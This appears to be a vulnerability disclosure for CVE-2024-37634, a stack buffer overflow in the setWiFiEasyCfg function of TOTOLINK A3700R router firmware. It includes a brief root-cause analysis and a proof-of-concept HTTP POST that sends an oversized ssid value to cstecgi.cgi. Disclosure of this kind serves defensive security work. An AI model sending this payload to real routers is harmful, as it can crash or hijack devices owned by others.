 # TOTOLINK A3700R V9.1.2u.6165_20211012 function setWiFiEasyCfg stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37634

### Analysis

`Var ` retrieves the value from the ` ssid ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240613114340783](./image-20240613114340783.png)

![image-20240613114418726](./image-20240613114418726.png)

But without checking if the length exceeds the buffer.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240613114740216](./image-20240613114740216.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 329

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718247599:2

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin



{"topicurl":"setWiFiEasyCfg",

"ssid":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

}
```

![image-20240613114914769](./image-20240613114914769.png)

![image-20240613115011793](./image-20240613115011793.png)
